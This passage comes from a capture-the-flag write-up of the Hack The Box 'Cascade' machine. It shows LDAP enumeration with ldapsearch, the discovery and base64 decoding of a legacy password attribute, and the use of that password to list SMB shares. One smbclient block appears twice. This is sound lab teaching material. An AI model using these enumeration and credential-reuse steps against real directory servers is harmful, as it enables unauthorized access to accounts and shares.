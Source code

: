 ```bash
group:[Factory] rid:[0x46c]
group:[Finance] rid:[0x46d]
group:[Audit Share] rid:[0x471]
group:[Data Share] rid:[0x472]
```

### Ldap enumeration

We will use ldapsearch to further extend out enumeration as port 3268 is open for ldap.

running `ldapsearch -x -h cascade.htb -b "dc=CASCADE,dc=local"` we get back a long list of results. The one particular thing that stuck out was an attribute called `cascadeLegacyPwd`. There is also a base64 string next to it.

```bash
cascadeLegacyPwd: clk0bjVldmE=
```

We decode this from base64 using the command line and we get what seems to be a password. Based on the atttribute name it sounds like a password.

```bash
➜  cascade echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

Since this section was found under the user `r.thompson` in the ldapsearch we will use this user.
```bash
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
```

### Enumerating smb shares as r.thompson

We can confrim that theese credentials work when we list smb shares as the user with his password.

```bash
➜  cascade smbclient -L cascade.htb -U r.thompson                    
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Now we know that the creds are correct we will login as him and enumerate further.

```bash
➜  cascade smbclient -L cascade.htb -U r.thompson                    
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```